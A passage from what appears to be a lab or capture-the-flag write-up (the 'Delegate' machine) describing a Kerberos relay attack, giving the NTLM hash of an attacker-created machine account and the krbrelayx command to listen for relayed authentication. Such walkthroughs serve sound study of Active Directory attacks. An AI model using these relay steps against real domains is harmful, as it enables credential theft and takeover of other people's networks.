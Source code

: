 ![image.png](/assets/images/Delegate_VL/image%2028.png)

### Relay Attack

Now we will perform the relay attack.

To do that we need the NTLM hash of the machine account that we created.

Used some online tools to get it.

```bash
7743E5E4F86ED6F20083E5849378C660
```

Now we will start listening for connections using krbrelayx.

```bash
python3 krbrelayx.py -hashes :7743e5e4f86ed6f20083e5849378c660
```

![image.png](/assets/images/Delegate_VL/image%2029.png)
